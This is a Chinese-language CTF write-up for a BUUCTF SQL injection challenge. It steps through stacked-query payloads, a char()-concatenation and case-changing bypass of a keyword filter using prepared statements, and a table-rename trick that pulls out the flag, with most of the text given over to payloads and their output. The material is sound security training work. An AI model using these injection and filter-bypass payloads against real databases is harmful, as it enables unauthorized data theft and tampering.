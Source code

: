 ```yaml
---
title: BUU 2019/10/19 随便注
date: 2019/10/19
tags: 
	- buuctf
---
```

### 建立分支试验，未按规定格式书写。

## 进入题目页面
有一个输入框和按钮，html代码里说sqlmap是没有灵魂的，因此手动注入。

## 思路
常规思路，有绕过尝试绕过，无法绕过可以重命名。

## writeup
1.
输入 1
返回

2.
输入'
报错，为字符型注入。

3.
输入' or 1#
```
array(2) {
  [0]=>
  string(1) "1"
  [1]=>
  string(7) "hahahah"
}

array(2) {
  [0]=>
  string(1) "2"
  [1]=>
  string(12) "miaomiaomiao"
}

array(2) {
  [0]=>
  string(6) "114514"
  [1]=>
  string(2) "ys"
}
```
第一个输入1 第二个输入2

4.输入' union select 1,2#
提示：
```
return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
```

5.尝试堆查询 ';show databases;#和';show tables;#
猜测自己是在“using ctftraining（数据库）”
```
array(1) {
  [0]=>
  string(11) "ctftraining"
}

array(1) {
  [0]=>
  string(18) "information_schema"
}

array(1) {
  [0]=>
  string(5) "mysql"
}

array(1) {
  [0]=>
  string(18) "performance_schema"
}

array(1) {
  [0]=>
  string(9) "supersqli"
}

array(1) {
  [0]=>
  string(4) "test"
}
```
6. ';show tables from ctftraining;#
得到
```
array(1) {
  [0]=>
  string(10) "FLAG_TABLE"
}

array(1) {
  [0]=>
  string(4) "news"
}

array(1) {
  [0]=>
  string(5) "users"
}
```
原来自己不在那个库里……
而是在supersqli。

7. ';show columns from `1919810931114514`;#
```
array(6) {
  [0]=>
  string(4) "flag"
  [1]=>
  string(12) "varchar(100)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
}
```

8. 预处理绕过 ';set @sisi=concat(char(115,101,108,101,99,116)," * from `1919810931114514`");prepare sqla from @sisi;execute sqla;#
返回
```
strstr($inject, "set") && strstr($inject, "prepare")
```
改一下大小写
';Set @sisi=concat(char(115,101,108,101,99,116)," * from `1919810931114514`");Prepare sqla from @sisi;execute sqla;#
得到flag:
```
array(1) {
  [0]=>
  string(42) "flag{86da5891-38c3-4689-8068-5fbb553e6ed8}"
}
```
9. 重命名法
';show columns from `1919810931114514`;#
```
array(6) {
  [0]=>
  string(4) "flag"
  [1]=>
  string(12) "varchar(100)"
  
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  
  [4]=>
  NULL
  [5]=>
  string(0) ""
}
```
只有flag一个column
';alter table `1919810931114514` change flag id varchar(100);# 【一定要加变量类型】
';rename table words to word,`1919810931114514` to words;#
' or 1;#
得到flag。

# 知识点
1. **concat拼接**
2. **SQL预处理**
```
';SET @sql=concat(char(115,101,108,101,99,116)," * from `1919810931114514`");PREPARE sqla from @sql;EXECUTE sqla;#
';set @sisi=concat(char(115,101,108,101,99,116)," * from `1919810931114514`");prepare sqla from @sisi;execute sqla;#
```

